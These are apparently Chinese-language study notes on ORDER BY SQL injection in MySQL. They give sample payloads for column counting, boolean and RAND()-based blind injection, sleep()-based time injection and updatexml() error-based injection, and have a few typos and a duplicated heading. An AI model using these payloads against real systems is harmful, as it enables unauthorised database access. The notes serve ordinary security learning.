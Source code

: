 ​	Order By 后可以填字段名或者数字，数字代表第几个字段

```sql
SELECT * FROM demo ORDER BY InjectionPoint;
```

​	 oder by由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假，利用`asc`和`desc`关键词可以测试是否为`ORDER BY`注入

### 情况一：判断列数

```sql
SELECT * FROM demo ORDER BY 2
```

​	`ORDER BY`一般用来快速判断表中的列数量，而且根据语法`Union`无法跟在`ORDER BY`后面

### 情况二：结合LIMIT PROCEDURE

在使用`ORDER BY`的情况下，`Union`无法跟在`ORDER BY`后面但是可以接LIMIT PROCEDURE或者INTO



### 情况二：order by 盲注（知道字段名的情况下）

​	IF 语句返回的是字符类型，不是整型，因此不可以直接使用数字替代，需要知道字段名

```sql
SELECT * FROM demo ORDER BY IF(true,id,username);
```

​	可以利用以下两种盲注技巧

- order by rand()

	```sql
	SELECT * FROM demo ORDER BY RAND(true); #当rang()为true和false时，排序结果是不同的，所以就可以使用rang()函数进行盲注
	```

- 时间盲注

	```sql
	SELECT * FROM demo ORDER BY IF(true,1,sleep(1));
	```

	

### 情况三：order by 盲注（不需要知道字段名）

```sql
SELECT * FROM demo ORDER BY IF(true,id,username)
```

- 报错注入

	```sql
	SELECT * FROM demo ORDER BY updatexml(1,if(1=1,1,user()),1);
	```

- 时间盲注

	```sql
	SELECT * FROM demo ORDER BY IF(true,1,sleep(1));
	```
